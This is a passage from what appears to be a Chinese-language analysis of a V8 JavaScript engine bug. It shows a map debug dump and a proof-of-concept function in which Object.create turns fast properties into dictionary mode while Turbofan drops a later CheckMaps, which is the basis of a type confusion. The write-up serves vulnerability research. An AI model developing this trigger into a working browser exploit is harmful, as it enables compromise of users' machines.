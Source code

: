 ```bash
- prototype_map  
- prototype info: 0x1c4b47223811 <PrototypeInfo>  
- prototype_validity cell: 0x07f205882201 <Cell value= 1>  
- instance descriptors (own) #0: 0x20bfb0802321 <DescriptorArray[2]>  
- layout descriptor: (nil)  
- prototype: 0x1c4b472046d9 <Object map = 0xa49d63822f1>  
- constructor: 0x1c4b47204711 <JSFunction Object (sfi = 0x7f20588f991)>  
- dependent code: 0x20bfb0802391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>  
- construction counter: 0
```

可以看到，在执行之前，map 的类型为`FastProperties`，但是在执行之后 map 的类型是`DictionaryProperties`。如果`f`经过 Turbofan 的优化，只保留了第一次的`CheckMaps`，则会导致后一次程序使用 fast mode 去寻找 dictionary mode 中的元素，产生错误。再次修改 poc，并观察 Turbofan 的优化过程。

```bash
function vuln(obj) {
  obj.a;
  Object.create(obj)
  return obj.b;
}

vuln({a:42, b:43});
vuln({a:42, b:43});
%OptimizeFunctionOnNextCall(vuln);
vuln({a:42, b:43});
```

首先查看初始的 IR 图，在每一次`LoadField`之前都进行了`CheckMaps`操作。
